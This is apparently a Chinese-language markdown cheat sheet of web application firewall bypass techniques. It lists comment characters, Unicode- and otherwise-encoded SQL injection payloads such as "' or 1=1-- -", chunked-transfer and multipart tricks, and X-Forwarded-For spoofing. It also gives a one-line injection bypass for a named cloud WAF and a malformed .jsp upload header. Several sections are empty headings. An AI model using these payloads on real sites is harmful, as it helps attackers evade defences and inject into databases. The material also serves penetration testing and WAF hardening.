

- [通用WAF](#通用waf)
  - [Bypass](#bypass)
    - [大小写绕过](#大小写绕过)
    - [注释符绕过](#注释符绕过)
    - [编码绕过](#编码绕过)
    - [分块传输](#分块传输)
    - [使用空字节绕过](#使用空字节绕过)
    - [关键字替换绕过](#关键字替换绕过)
    - [http协议覆盖绕过](#http协议覆盖绕过)
    - [白名单IP绕过](#白名单ip绕过)
    - [真实IP绕过](#真实ip绕过)
    - [参数污染](#参数污染)
    - [溢出waf绕过](#溢出waf绕过)
    - [畸形数据包](#畸形数据包)
    - [云锁](#云锁)

# 通用WAF
## Bypass
### 大小写绕过
### 注释符绕过
```
#
-- 
-- - 
--+ 
//
/**/
```
### 编码绕过
1. IBM编码  

可识别IBM编码的场景
```
Nginx, uWSGl-Django-Python2 & 3
Apache-TOMCAT7/8- JVM1.6/1.8-JSP
Apache- PHP5 (mod_ php & FastCGI)
IIS (6, 7.5, 8, 10) on ASP Classic, ASP.NET and PHP7.1- FastCGI
```
2. url双编码
3. hex编码
4. base64
5. unicode
```
o -> %e1%b4%bc
r -> %e1%b4%bf
1 -> %c2%b9
= -> %e2%81%bc
/ -> %ef%bc%8f
- -> %ef%b9%a3
# -> %ef%b9%9f
* -> %ef%b9%a1
' -> %ef%bc%87
" -> %ef%bc%82
| -> %ef%bd%9c


' or 1=1-- -
%ef%bc%87+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

" or 1=1-- -
%ef%bc%82+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

' || 1==1//
%ef%bc%87+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f

" || 1==1//
%ef%bc%82+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f
```  

参考: https://github.com/carlospolop/sqlmap_to_unicode_template
### 分块传输
在HTTP Hader中加入` Transfer-Encoding: chunked`,表示采用分块编码,每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示结束。
利用分块传输来分割敏感关键字.
### 使用空字节绕过
### 关键字替换绕过
### http协议覆盖绕过
1. 多boundary定义
在`Content-type: multipart/form-date`中定义多个`boundary`,导致waf检测范围和上传范围不一致.
1. 
### 白名单IP绕过
针对白名单IP不做检测,而IP从HTTP Header中获取,通过XFF头等进行伪造.
### 真实IP绕过
云WAF通过寻找真实IP绕过WAF
1. 多地点Ping
2. 子域C段
3. 邮件服务器
4. 信息泄露
5. DNS历史解析记录
6. SSRF
通过使用Connection: keep-alive 达到一次传输多个http包.
1. 将两个请求的request放在一起,并且都设置为`Connection: keep-alive`.
### 参数污染
通常在一个请求中,同样名称的参数只会出现一次,但是在 HTTP 协议中是允许同样名称的参数出现多次的,通过对一个参数多次传值来绕过检测.  
常见场景:

1. 对多个相同参数只取其中一个.
2. 对多个相同的参数进行拼接.
### 溢出waf绕过

### 畸形数据包
主要利用WAF和服务器的解析差异,构造一个WAF不能正确识别但服务端可以识别的数据包.
1. 文件上传时,去掉filename的双引号,导致WAF不能正确获取到文件上传的后缀,但服务端却可以得到正确的后缀.
```
Content-Disposition: form-data; name="file"; filename=1.jsp
```
2. 用多参数或者无效数据填充文件内容或者文件名，超出WAF的检测限制范围，从而绕过检测.
### 云锁
1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可